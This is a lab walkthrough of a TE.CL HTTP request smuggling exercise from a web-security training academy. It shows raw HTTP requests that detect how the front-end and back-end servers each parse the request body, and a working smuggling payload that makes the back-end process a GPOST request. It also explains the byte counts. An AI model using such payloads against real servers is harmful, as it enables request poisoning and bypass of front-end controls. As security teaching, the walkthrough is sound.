

# HTTP request smuggling, basic TE.CL vulnerability
# Objective
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. \
The front-end server rejects requests that aren't using the GET or POST method. \
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

# Solution
## Determinig what the front-end is using
If front-end uses `Transfer-Encoding` header it should response with error, because `X` is not valid chunk size.
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7
Transfer-Encoding: chunked

4
test
X

```
||
|:--:| 
| *Error - Front-end is using Transfer Encoding header* |

## Determining what the back-end is using
If back-end uses `Content-Length` header it should wait for all the bytes defined in `Content-Length` header. In the example below, the last byte (`X`) is striped by front-end becouse it uses `Transfer-Encoding` header (`0`indicates the end of the message).
```
POST / HTTP/1.1
Host: 0a6100460314d8ba842f0f1000170065.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X

```
||
|:--:| 
| *No response* |
||
| *Time-out - Back-end is using Content Length header* |

## Exploitation
```
POST / HTTP/1.1
Host: 0a180087043380db80f8a3db007700e3.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The `Content-Length: 4` value:
```
5c\r\n                                                              +4
GPOST / HTTP/1.1\r\n                                                +0
Content-Type: application/x-www-form-urlencoded\r\n                 +0
Content-Length: 15\r\n                                              +0
\r\n                                                                +0
x=1                                                                 +0 
```

The `bytes number 5c` value:
```
5c\r\n                                                              +0
GPOST / HTTP/1.1\r\n                                                +18
Content-Type: application/x-www-form-urlencoded\r\n                 +49
Content-Length: 15\r\n                                              +20
\r\n                                                                +2
x=1                                                                 +3 
```
The `Content-Length: 15` of the smuggled request must be bigger (at least by one) then the actual size of the smuggled request payload. This ensures that it will be trigered (few bytes of the normal request will be appened to the smuggled request).

||
|:--:| 
| *First request - poisoning* |
||
| *Second request - request was smuggled* |
||
| *Second request with visible signs "\r" and "\n"* |
